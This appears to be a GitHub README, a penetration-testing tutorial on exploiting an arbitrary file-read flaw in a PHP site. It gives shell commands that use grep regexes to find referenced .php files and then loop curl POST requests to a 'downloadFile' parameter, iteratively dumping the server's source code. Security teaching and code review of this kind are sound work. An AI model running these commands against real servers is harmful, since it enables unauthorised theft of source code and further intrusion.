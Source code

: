 # Extract PHP files

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/c67fc7ed-2727-44c5-9425-e8ab4dc93d93"><br>

You have discovered a vulnerability that enables you to read internal server files, similar to the `readfile($input)` function in PHP.

To exploit this vulnerability, you dump the sitemap of your Burp Suite, and then filter all the `.php` files to download them.

However, be aware that these files might also include or reference other `.php` files in various ways, such as through `include`, `require`, `href`, `form action`, `require_once`, comments, etc.

Searching for these references one by one is not the most efficient and can become tedious. In this context, regular expressions (regex) prove to be incredibly useful.


## Example<br>

Currently, you possess knowledge of the files `index.php`, `auth.php`, and `redirect.php` which were extracted from the Burp Suite sitemap.

However, it's crucial to note that these files also reference unknown internal files in various ways, utilizing functions like `include()`, `require_once()`, `Location`, `form action`, and more.

Thankfully, by employing regular expressions (regex), you can easily extract all the referenced files and uncover further insights.

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/99b04175-bc22-498c-a63f-a0a566014358"><br>

## Steps
1. Extract all the referenced files.
2. Extract all the directories and create them on your local machine.
3. Download all the files using the wordlist "_php-files."
4. Continuously searching for more referenced .php files, until there are no more .php files left to download.
   
Note: You will see that you will have no more php files to download when the "_php-verify" file is empty or with garbage


```sh
# 1°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files

# 2°
for _dir in $(cat _php-files);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"

# 3°
for _file in$(cat _php-files);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done

# 4°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files
rm _php-verify; for _file in $(cat _php-files);do find * | grep -w "$_file" || printf "\n$_file" >> _php-verify ; done
rm _php-check; for _dir in $(grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | grep -wEv "_php-files|_php-verify" | awk -F'.php:' '{print $1}' | xargs -I@ sh -c "dirname @" 2>&- | sort -u); for _file in $(cat _php-verify);do printf "\n$_dir/$_file"; done | sort -u >> _php-check
for _dir in $(sort -u _php-check);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"
for _file in $(sort -u _php-check);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done
```
